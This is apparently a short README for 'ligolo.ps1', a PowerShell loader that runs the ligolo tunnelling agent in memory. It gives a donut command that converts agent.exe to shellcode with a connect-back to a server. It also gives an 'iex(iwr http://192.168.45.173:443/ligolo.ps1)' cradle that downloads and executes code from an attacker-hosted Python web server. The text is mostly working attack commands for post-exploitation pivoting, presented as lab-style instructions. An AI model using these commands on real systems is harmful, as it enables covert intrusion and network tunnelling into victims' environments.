 ### ligolo.ps1 
Make sure to convert agent.exe of ligolo to shellcode:
- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

Make sure you are running as x64 bit process before running: Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

Invoke it: 
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.

